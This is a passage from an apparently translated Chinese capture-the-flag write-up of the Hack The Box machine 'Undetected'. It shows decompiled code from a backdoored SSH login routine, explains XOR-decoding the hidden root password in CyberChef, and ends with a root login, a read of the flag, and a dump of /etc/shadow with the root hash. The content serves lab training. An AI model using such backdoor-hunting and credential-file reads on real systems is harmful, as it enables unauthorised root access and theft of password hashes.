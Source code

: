 ```
while( true ) {
    pbVar5 = pbVar4 + 1;
    *pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 = *pbVar5;
    pbVar4 = pbVar5;
}

iVar2 = strcmp(password,backdoor);
```

在每次循环中，这些值都与长度为 96 的密钥进行 xor 运算，然后进行一次 sting 比较，看您在登录 SSH 时输入的密码是否与 backdoor 的值匹配。这很难理解，因为有人故意通过移动变量的值来混淆我们。[这个](https://en.cppreference.com/w/c/language/operator_precedence)对于 C 操作人员来说是一个很好的参考。

# 解码根密码

要查看后门变量持有的密码是什么，我们需要解码上面的内容。这可以用一个简单的 Python 循环来完成，但使用 CyberChef 更容易:

![](img/0c8be33dfab94a6c907cb7f94defffd3.png)

使用 CyberChef 查找根密码

就像在函数中一样，我们将后门程序的内容从 Little Endian 转换为 Hex，然后进行 XOR 运算。结果是根密码，所以让我们登录并完成框:

```
┌──(root💀kali)-[~/htb/undetected]
└─# ssh root@djewelry.htb
root@djewelry.htbs password: 
Last login: Tue Feb 22 19:43:08 2022 from 10.10.14.193
root@production:~#
root@production:~# cat /root/root.txt
3a931f64fcdcfb18217aeb6bd37ad8d9

root@production:~# cat /etc/shadow
root:$6$xxydXHZzlPY4U0lU$qJDDFjfkXQnhUcESjCaoCWjMT9gAPnyCLJ8U5l2KSlOO3hPMUVxAOUZwvcm87Vkz0Vyc./cDsb2nNZT0dYIbv.:19031:0:99999:7:::
```
